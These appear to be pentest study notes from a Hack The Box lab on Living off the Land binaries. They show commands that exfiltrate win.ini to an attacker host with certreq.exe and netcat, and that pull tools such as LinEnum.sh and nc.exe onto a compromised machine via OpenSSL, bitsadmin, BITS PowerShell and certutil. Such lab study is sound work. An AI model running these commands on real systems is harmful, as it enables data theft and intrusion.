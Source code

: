 The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

 Living off the Land binaries can be used to perform functions such as:
- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

## Using the LOLBAS and GTFOBins Project
### LOLBAS
To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.
![[Pasted image 20250923180015.png]]

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.
#### Upload win.ini to our Pwnbox

```cmd
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```
#### File Received in our Netcat Session
```shell
$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

### GTFOBins
To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.
![[Pasted image 20250923180120.png]]
Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.

#### Create Certificate in our Pwnbox
```shell
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

#### Stand up the Server in our Pwnbox
```shell
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```
Next, with the server running, we need to download the file from the compromised machine.

#### Download File from the Compromised Machine
```shell
 openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

---
### Bitsadmin Download function
The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

#### File Download with Bitsadmin
```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

#### Download
```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

---
### Certutil
Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files.
#### Download a File with Certutil
```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
